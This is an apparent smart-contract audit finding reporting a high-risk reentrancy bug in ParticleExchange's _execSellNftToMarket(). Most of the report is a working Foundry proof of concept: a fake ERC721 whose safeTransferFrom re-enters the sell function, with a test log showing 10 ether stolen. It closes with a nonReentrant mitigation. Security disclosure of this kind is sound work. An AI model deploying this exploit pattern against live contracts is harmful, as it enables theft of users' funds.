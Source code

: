 ## Tags

- bug
- 3 (High Risk)
- satisfactory
- selected for report
- sponsor confirmed
- H-04

# [_execSellNftToMarket() re-enter steal funds](https://github.com/code-423n4/2023-05-particle-findings/issues/14) 

# Lines of code

https://github.com/code-423n4/2023-05-particle/blob/1caf678bc20c24c96fc8f6b0046383ff0e9d2a6f/contracts/protocol/ParticleExchange.sol#L291


# Vulnerability details

## Impact
re-enter steal funds

## Proof of Concept
`_execSellNftToMarket()` The number of changes in the balance to represent whether the corresponding amount has been received

```solidity
    function _execSellNftToMarket(
        address collection,
        uint256 tokenId,
        uint256 amount,
        bool pushBased,
        address marketplace,
        bytes calldata tradeData
    ) internal {
...

        if (
            IERC721(collection).ownerOf(tokenId) == address(this) ||
            address(this).balance - ethBefore - wethBefore != amount
        ) {
            revert Errors.InvalidNFTSell();
        }    
```

Since the current contract doesn't have any `nonReentrant` restrictions
Then the user can use reentrant and pay only once when multiple `_execSellNftToMarket()`s share the same transfer of funds

Here are some examples.
1. alice supplies a fake NFT_A 
2. alice executes sellNftToMarket(), assuming sellAmount=10
3. execSellNftToMarket() inside the `IERC721(collection).safeTransferFrom()` for re-entry.
Note: The collection is an arbitrary contract, so `safeTransferFrom()` can be any code.
4. Reenter the execution of another Lien's sellNftToMarket(), and really transfer to amount=10
5. After the above re-entry, go back to step 3, this step does not need to actually pay, because step 4 has been transferred to sellAmount = 10, so it can pass this verification `address(this).balance - ethBefore - wethBefore ! = amount`

so that only one payment is made, reaching the `sellNftToMarket()` twice


Test code:

add to ParticleExchange.t.sol

```solidity

    function testReenter() public{
        vm.deal(address(particleExchange),100 ether);        
        FakeERC721 fakeERC721 =  new FakeERC721(particleExchange,address(dummyMarketplace),"fake","fake");
        vm.deal(address(fakeERC721),10 ether);
        fakeERC721.execSteal();
    }



contract FakeERC721 is ERC721 {
    ParticleExchange private particleExchange;
    address private marketplace;
    uint sellAmount = 10 ether;
    constructor(ParticleExchange _particleExchange,address _marketplace, string memory name, string memory symbol) ERC721(name, symbol) {
        particleExchange = _particleExchange;
        marketplace = _marketplace;
    }

    function mint(address to, uint256 tokenId) external {
        _safeMint(to, tokenId);
    }

    function execSteal() external {
        //0. mint nft and supply lien
        uint256 tokenId = 1;
        _mint(address(this), tokenId);
        _mint(address(this), tokenId + 1);
        _setApprovalForAll(address(this),address(particleExchange), true);
        //console.log(isApprovedForAll(address(this),address(particleExchange)));
        uint256 lienId = particleExchange.supplyNft(address(this), tokenId, sellAmount, 0);
        uint256 lienId2 = particleExchange.supplyNft(address(this), tokenId + 1, sellAmount, 0);
        uint256 particleExchangeBefore = address(particleExchange).balance;
        uint256 fakeNftBefore = address(this).balance;
        console.log("before particleExchange balance:",particleExchangeBefore / 1 ether);
        console.log("before fakeNft balance:",fakeNftBefore / 1 ether);
        //1.sell , reenter pay one but sell two lien
        sell(lienId,tokenId,sellAmount); 
        //2. repay lien 1 get 10 ether funds
        particleExchange.repayWithNft(
            Lien({
                lender: address(this),
                borrower: address(this),
                collection: address(this),
                tokenId: tokenId,
                price: sellAmount,
                rate: 0,
                loanStartTime: block.timestamp,
                credit: 0,
                auctionStartTime: 0
            }),
            lienId,
            tokenId
        );
        //3. repay lien 2 get 10 ether funds
        particleExchange.repayWithNft(
            Lien({
                lender: address(this),
                borrower: address(this),
                collection: address(this),
                tokenId: tokenId + 1,
                price: sellAmount,
                rate: 0,
                loanStartTime: block.timestamp,
                credit: 0,
                auctionStartTime: 0
            }),            
            lienId2,
            tokenId + 1
        );       
        //4.show fakeNft steal funds
        console.log("after particleExchange balance:",address(particleExchange).balance/ 1 ether);
        console.log("after fakeNft balance:",address(this).balance/ 1 ether);
        console.log("after particleExchange lost:",(particleExchangeBefore - address(particleExchange).balance)/ 1 ether);       
        console.log("after fakeNft steal:",(address(this).balance - fakeNftBefore) / 1 ether);        
    }

    function sell(uint256 lienId,uint256 tokenId,uint256 sellAmount) private{
        bytes memory tradeData = abi.encodeWithSignature(
            "sellToMarket(address,address,uint256,uint256)",
            address(particleExchange),
            address(this),
            tokenId,
            sellAmount
        );
        particleExchange.sellNftToMarket(
            Lien({
                lender: address(this),
                borrower: address(0),
                collection: address(this),
                tokenId: tokenId,
                price: sellAmount,
                rate: 0,
                loanStartTime: 0,
                credit: 0,
                auctionStartTime: 0
            }),
            lienId,
            sellAmount,
            true,
            marketplace,
            tradeData
        );         
    }        
    function safeTransferFrom(
        address from,
        address to,
        uint256 tokenId,
        bytes memory data
    ) public virtual override {
        if(from == address(particleExchange)){
            if (tokenId == 1) { //tokenId =1 , reenter , don't pay
                sell(1,tokenId + 1 ,sellAmount);
            }else { // tokenId = 2 ,real pay
                payable(address(particleExchange)).transfer(sellAmount);
            }
        }
        _transfer(_ownerOf(tokenId),to,tokenId); //anyone can transfer
    }
    fallback() external payable {}
}
```


```console
$ forge test --match testReenter  -vvv

Running 1 test for test/ParticleExchange.t.sol:ParticleExchangeTest
[PASS] testReenter() (gas: 1869563)
Logs:
  before particleExchange balance: 100
  before fakeNft balance: 10
  after particleExchange balance: 90
  after fakeNft balance: 20
  after particleExchange lost: 10
  after fakeNft steal: 10
```
Test result: ok. 1 passed; 0 failed; finished in 4.80ms

## Tools Used

## Recommended Mitigation Steps

Add `nonReentrant` restrictions to all Lien-related methods


## Assessed type

Reentrancy
